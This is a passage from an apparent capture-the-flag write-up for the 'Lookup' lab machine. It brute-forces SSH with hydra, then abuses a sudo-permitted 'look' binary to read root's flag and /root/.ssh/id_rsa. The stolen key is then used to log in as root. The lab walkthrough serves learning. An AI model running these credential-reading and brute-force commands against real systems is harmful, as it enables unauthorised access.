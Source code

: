 Now, it's time to run the `/usr/sbin/pwm` binary and once we do that we can see the password list. Save the list to your local machine to brute-force the password.

#### Brute-Force the password list
```bash
hydra -l think -P pass-list ssh://lookup.thm -t 32                                                                                  
```
![[password-Brute_Force.png]]
Once we successfully crack the password for the `think` user, it's time to ssh into the machine.

#### SSH
```bash
ssh think@lookup.thm
```

We can now read the `user.txt` flag.

Now, it's time to escalate our privileges to root. 
```bash
sudo -l
```

We find the following binary that is run as root. However, it doesn't have SUID permissions. This binary seems to read files, follow GTFOBins for more.
![[look.png]]

#### Read Files with Look
**To just read the `root.txt`**
```bash
sudo look '' /root/root.txt
```

**Read the `/root/.ssh/id_rsa` private key
```bash
sudo look '' /root/.ssh/id_rsa
```

Save the file in your local machine and and changed the permissions.
```bash
chmod 600 id_rsa
```

#### ssh using that key
```bash
ssh -i id_rsa root@lookup.thm
```